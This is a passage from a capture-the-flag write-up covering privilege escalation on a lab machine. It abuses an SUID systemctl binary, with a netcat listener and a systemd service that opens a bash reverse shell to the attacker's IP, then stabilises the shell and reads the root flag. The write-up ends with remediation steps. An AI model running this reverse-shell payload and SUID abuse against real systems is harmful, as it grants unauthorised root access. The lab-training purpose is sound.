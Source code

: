 ```bash
/bin/fusermount
/sbin/mount.cifs
```
### Exploitation
Head to [GTFOBins](https://gtfobins.github.io/) to search these binaries, revealing that `systemctl` is vulnerable.

- On your kali machine, open a new nc listener: `nc -lvnp 4444`
- Run this modified GTFOBins exploit (make sure to change IP):
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/[Your Host IP]/4444 0>&1"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

#### Shell Stabilization
This uses the same steps as before
- `python -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- `Ctrl+Z`
- `stty raw -echo; fg`
- `reset`

#### Root flag
- `cat /root/root.txt`

# Securing this server
Note that these steps should be completed on the root account
## Root security
- See `systemctl` perms with `ls -l /bin/systemctl`
- Fix the SUID bit with `chmod u-s /bin/systemctl`

## User security
- Enter the web directory with `cd /var/www/html/internal`
- Edit the web file with `nano index.php`
- Remove `phtml` from the vulnerable line: `$extensions= array("phtml");`
	- Save the file with `CTRL + X` then `Y` then `ENTER`

The machine is now secure!